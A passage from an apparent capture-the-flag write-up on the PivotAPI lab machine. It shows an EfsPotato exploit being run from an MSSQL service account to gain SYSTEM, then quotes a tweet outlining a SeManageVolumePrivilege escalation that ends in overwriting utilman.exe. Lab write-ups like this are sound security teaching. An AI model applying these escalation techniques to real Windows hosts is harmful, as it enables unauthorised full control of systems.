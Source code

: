 
I’ll move that back to my Linux VM, and then upload it to `C:\programdata` on
PivotAPI.

#### Execution

Running this is quite simple - it just needs the command that I want to run as
SYSTEM. For example:

    
    
    CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\ProgramData> .\efs.exe whoami
    Exploit for EfsPotato(MS-EFSR EfsRpcOpenFileRaw with SeImpersonatePrivilege local privilege escalation vulnerability).
    Part of GMH's fuck Tools, Code By zcgonvh.
    
    [+] Current user: NT Service\MSSQL$SQLEXPRESS
    [!]binding ok (handle=1045990)
    [+] Get Token: 748
    [!] process with pid: 3980 created.
    ==============================
    nt authority\system
    

From here I could read `root.txt`, or put a hole in the firewall so I could
get a reverse shell.

## SeBackupVolume

### Background

According to [Microsoft](https://docs.microsoft.com/en-
us/windows/security/threat-protection/security-policy-settings/perform-volume-
maintenance-tasks), the `SeManageVolumePrivilege` is used for:

> This policy setting determines which users can perform volume or disk
> management tasks, such as defragmenting an existing volume, creating or
> removing volumes, and running the Disk Cleanup tool.
>
> Use caution when assigning this user right. Users with this user right can
> explore disks and extend files in to memory that contains other data. When
> the extended files are opened, the user might be able to read and modify the
> acquired data.

Basically this privilege gives accesses to the disks.

On Googling “SeManageVolume”, the first result was [this
tweet](https://twitter.com/0gtweet/status/1303427935647531018):

> SeManageVolumePrivilege to "Full Admin" escalation:  
> 1\. Enable the privilege in the token  
> 2\. Create handle to \\\\.\C: with SYNCHRONIZE | FILE_TRAVERSE  
> 3\. Send the FSCTL_SD_GLOBAL_CHANGE to replace S-1-5-32-544 with
> S-1-5-32-545  
> 4\. Overwrite utilman.exe etc.  
> 5\. 😎 [pic.twitter.com/qIgxqvsHqO](https://t.co/qIgxqvsHqO)
>
> — Grzegorz Tworek (@0gtweet) [September 8,
> 2020](https://twitter.com/0gtweet/status/1303427935647531018?ref_src=twsrc%5Etfw)
